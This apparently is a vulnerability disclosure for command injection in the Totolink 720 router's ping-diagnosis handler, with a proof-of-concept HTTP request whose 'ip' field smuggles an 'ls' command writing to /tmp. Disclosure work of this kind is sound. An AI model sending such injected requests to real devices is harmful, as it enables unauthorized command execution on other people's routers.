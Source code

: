 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  
Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  
``POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}``
